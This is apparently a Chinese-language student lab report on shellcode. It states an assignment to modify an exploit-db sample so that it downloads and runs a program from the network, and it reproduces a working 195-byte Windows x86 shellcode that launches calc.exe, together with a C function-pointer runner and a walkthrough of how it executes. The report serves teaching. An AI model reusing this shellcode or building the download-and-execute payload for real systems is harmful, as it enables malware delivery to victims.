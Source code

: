 # shellcode实验报告

## 实验要求

* 详细阅读 [www.exploit-db.com](https://www.exploit-db.com/shellcodes) 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
* 修改[示例代码](https://www.exploit-db.com/shellcodes/48116)的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
  * 原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。
  * URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数

## 实验步骤

### 实验一

#### [Windows/x86 - Null-Free WinExec Calc.exe Shellcode (195 bytes)](https://www.exploit-db.com/shellcodes/48116)

1. 打开网页看到前半段代码是汇编，后面是C语言代码。在VS中建一个空工程，把整个C语言部分复制到VS中。

```c
  #include <windows.h>
  #include <stdio.h>
  char code[] = \
  "\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
  "\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
  "\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
  "\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
  "\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
  "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
  "\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
  "\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
  "\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
  "\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
  "\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
  "\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
  "\x52\xff\xd0";
  
  int main(int argc, char** argv) //运行上面的code
  {
      int (*func)();
      func = (int(*)()) code;
      (int)(*func)();
  }
  ```

* 主函数代码用到了一个较为高级的C语言语法，函数指针。
    * 定义了一个函数指针变量，func
    * 这个函数指针的变量类型是 int(*)().表示返回值是int，参数列表为空的一个函数。
* 在main函数的第二行，把全局变量 code 赋值给 func。并强制类型转换为 int(*)() 类型的函数指针。这样 func就有值了，就可以被调用了，由于func所指向的地址，就是code的地址，所有调用func的时候，运行的就是 code里面的那一堆二进制代码。
